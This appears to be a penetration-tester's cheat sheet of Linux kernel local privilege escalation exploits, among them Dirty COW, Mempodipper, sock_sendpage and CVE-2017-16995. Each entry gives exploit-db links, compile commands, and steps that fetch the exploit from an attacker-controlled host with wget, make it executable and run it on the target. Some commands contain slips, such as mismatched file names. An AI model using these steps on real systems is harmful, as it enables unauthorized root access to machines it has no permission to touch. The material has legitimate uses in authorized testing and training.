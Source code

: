 ```yaml
---
description: Common kernel exploits usage.
---
```


# Kernel Exploits

### **Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip\_append\_data()' Ring0 Privilege Escalation (1) - **

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

If target machine has 32-bit architecture, we compile it with cross compiling at our machine.

```
$ gcc -m32 -Wl,--hash-style=both -o 9542 9542.c

$ wget http://192.168.1.1/9545 && chmod +x 9542 && ./9542
```

### Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC)  - 'sock\_sendpage()' Local Privilege Escalation

[https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

If this doesn't work, we should change the module. - https://bugzilla.redhat.com/show\_bug.cgi?id=516949#c24- List of Modules - 24

Line 349 - if ((out\_fd = socket(**{MODULENAME}**, SOCK\_DGRAM, 0)) == -1)

```
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545

wget http://192.168.1.1/9545 && chmod +x 9545 && ./9545
```

```
linux-sendpage.c (same 9545)
 * Linux kernel versions from 2.4.4 to 2.4.37.4, and from 2.6.0 to 2.6.30.4
 * are vulnerable.
 * For i386 and ppc, compile with the following command:
 * gcc -Wall -o linux-sendpage linux-sendpage.c
 *
 * And for x86_64 and ppc64:
 * gcc -Wall -m64 -o linux-sendpage linux-sendpage.c
```

### Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2)

exploits/linux/local/35161.c

[https://www.exploit-db.com/raw/35161](https://www.exploit-db.com/raw/35161)

```
mkdir /tmp/poc
cd /tmp/poc
wget http://192.168.1.1/35161.c
gcc 35161.c -o poc
./poc
```

### Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation

[https://www.exploit-db.com/exploits/44298](https://www.exploit-db.com/exploits/44298)

```
cp /usr/share/exploitdb/exploits/linux/local/44298.c .
gcc 44298.c -o exploit.php

wget http://192.168.1.1:8080/exploit.php
mv exploit.php exploit
chmod +x exploit
./exploit
```

### Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation

[https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)

```
gcc cve-2017-16995.c -o cve-2017-16995
$ ./cve-2017-16995
```

### Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)

[https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

[https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)

```
test$ gcc -pthread dirty.c -o dirty -lcrypt dirty
./dirty
```

